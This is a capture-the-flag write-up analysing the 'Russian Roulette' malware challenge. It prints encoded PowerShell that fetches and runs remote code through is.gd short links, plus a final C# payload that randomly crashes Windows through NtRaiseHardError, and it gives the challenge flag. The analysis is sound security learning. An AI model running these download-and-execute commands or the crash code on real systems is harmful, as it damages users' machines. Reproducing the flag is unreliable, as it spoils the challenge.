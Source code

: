2024-11-26 16:29

Status: #completed_huntress_CTF

Tags: [[huntressctf]] [[solved]] [[malware]] [[obfuscation]] [[ctf]] [[Cyber Security]] [[cyber security awareness month]] 

# Russian Roulette
Russian Roulette is a malware challenge that starts as a Windows Powershell link. 
Let's see what the target of that link is actually pointing at!
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=
```
Nice so it looks like some [[base64]] we can decode that in cyber chef to get. 
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```
Looks like it is reaching out to a web page and downloading the file, to the environment variable TMP location.
We can look up what the preview method for is.gd, but we'll preview the web page by adding a - to the end.
```
 is.gd/jwr7JD-
```
Which links to this Github repository, https://github.com/user-attachments/files/17251016/powershell.zip
So lets download that, and it isn't a zip archive, but it is just a txt. and looks to be very obfuscated
Here's a small example of what it looks like 
![huntressctf_russian_Github_file](https://github.com/user-attachments/assets/fbeed805-9a0a-49ef-b402-9aa1fb643862)

It's quite a large document. so let's run this, since it would normally be downloaded and ran in a malicious environment.
which gives us this base64
```
aQB3AHIAIABpAHMALgBnAGQALwBRAFIARAB5AGkAUAB8AGkAZQB4AA==
```
Which gives us this cmd
```
iwr is.gd/QRDyiP|iex 
```
So it reaches out to a web page again, downloads a file and then runs it.
We can do the same thing we did last URL, and see that this location is also a Github repository https://github.com/user-attachments/files/17242481/conhost.log
Let's download the file and investigate again.
We can cat out the contents and see that it runs another Power shell command.
```
$s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe"   
```
This  command looks like it decrypts the flag,
I noticed the c, k, and i variable
```
c = ciphertext = RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw
k = key = /a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=
i = IV = 9sXGmK4q9LdYFdOp4TSsQw==
```

so not only is it Base64 encoded it's also AES encoded.
We can decrypt that with CyberChef pretty easily.
![HuntressCTF_russianRoulette_flag_decrypt](https://github.com/user-attachments/assets/82f718c3-559b-4483-bfda-5b10fd8084b7)

And we have our flag!
```
 flag{4e4f266d44717ff3af8bd92d292b79ec}
```


# Resources
[[Short URL Preview links]]
